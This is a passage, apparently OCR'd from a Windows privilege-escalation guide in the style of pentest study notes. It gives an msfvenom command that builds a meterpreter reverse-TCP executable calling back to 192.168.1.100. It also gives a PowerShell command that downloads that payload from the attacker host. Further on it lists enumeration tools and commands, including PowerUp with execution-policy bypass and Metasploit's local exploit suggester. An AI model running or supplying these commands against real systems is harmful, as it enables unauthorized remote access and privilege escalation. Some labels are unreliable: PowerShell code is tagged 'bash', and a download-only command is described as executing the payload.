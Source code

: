     msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe

Executing the Payload:

    powershell -c "Invoke-WebRequest -Uri 'http://192.168.1.100/shell.exe' -OutFile 'shell.exe'": Downloads and executes the payload on the target system.

    bash

        powershell -c "Invoke-WebRequest -Uri 'http://192.168.1.100/shell.exe' -OutFile 'shell.exe'"

Methodology and Tactics:
The focus here is on establishing an initial connection to the target system using custom payloads. msfvenom is a powerful tool that can generate payloads in various formats, making it a versatile option for gaining a foothold in diverse environments.
6. Exploring Automated Tools

Resources:

    winPEAS
    Windows Priv Esc Checklist
    Sherlock
    Watson
    PowerUp
    JAWS
    Windows Exploit Suggester
    Metasploit Local Exploit Suggester
    Seatbelt
    SharpUp

Commands and Methodology:

    Running winPEAS for Enumeration:
        winPEAS.exe: Executes the winPEAS script to perform a thorough enumeration of the Windows environment, highlighting potential privilege escalation vectors.

        bash

    winPEAS.exe

Using PowerUp for Privilege Escalation:

    Invoke-AllChecks: A PowerShell command that uses PowerUp.ps1 to check for common privilege escalation vulnerabilities.

    bash

    powershell -ep bypass
    . .\PowerUp.ps1
    Invoke-AllChecks

Metasploit Local Exploit Suggester:

    run post/multi/recon/local_exploit_suggester: Uses Metasploit to suggest local exploits based on the target's system information.

    bash

        run post/multi/recon/local_exploit_suggester
